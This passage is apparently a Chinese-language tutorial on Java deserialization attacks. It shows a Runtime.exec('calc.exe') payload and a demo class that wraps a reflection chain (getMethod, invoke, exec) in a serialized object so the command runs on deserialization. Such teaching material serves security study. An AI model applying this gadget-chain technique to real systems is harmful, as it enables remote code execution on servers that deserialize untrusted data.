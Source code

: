* ### 恶意代码

  在进行攻击之前，我们将构造出一段恶意代码，该恶意代码的主要功能是运行对方电脑上的计算器

  ```java
    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
  ```

* ### 恶意代码的包装

  Java 的反序列化漏洞中,目前我们只能传输一个对象的属性与状态，而不是字节码，因此我们就需要使用 Java 的反射技术来将我们的代码意图进行掩盖，以确保我们的恶意代码能传输到目标服务器上。为了演示出一个 "合格" 的漏洞代码，我们构建了一个 Java 类,代码如下所示。

  一个由我们构造的满足入侵条件的 Java 反序列化漏洞案例

  ```java
  public class ReflectionPlay implements Serializable{

    public static void main(String[] args) throws Exception {
        new ReflectionPlay().run();
    }

    public void run() throws Exception {
        byte[] ObjectBytes=serialize(getObject());
        deserialize(ObjectBytes);
    }

    //在此方法中返回恶意对象
    public Object getObject() {
        String command = "calc.exe";
        Object firstObject = Runtime.class;
        ReflectionObject[] reflectionChains = {
                //调用 Runtime.class 的getMethod方法,寻找 getRuntime方法，得到一个Method对象(getRuntime方法)
                //等同于 Runtime.class.getMethod("getRuntime",new Class[]{String.class,Class[].class})
                new ReflectionObject("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                //调用 Method 的 invoker 方法可以得到一个Runtime对象
                // 等同于 method.invoke(null),静态方法不用传入对象
                new ReflectionObject("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                //调用RunTime对象的exec方法,并将 command作为参数执行命令
                new ReflectionObject("exec", new Class[]{String.class}, new Object[]{command})
        };

        return new ReadObject(new ReflectionChains(firstObject, reflectionChains));
    }

    /*
     * 序列化对象到byte数组
     * */
    public byte[] serialize(final Object obj) throws IOException {
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(out);
        objOut.writeObject(obj);
        return out.toByteArray();
    }

    /*
     * 从byte数组中反序列化对象
     * */
    public Object deserialize(final byte[] serialized) throws IOException, ClassNotFoundException {
        ByteArrayInputStream in = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(in);
        return objIn.readObject();
    }
  ```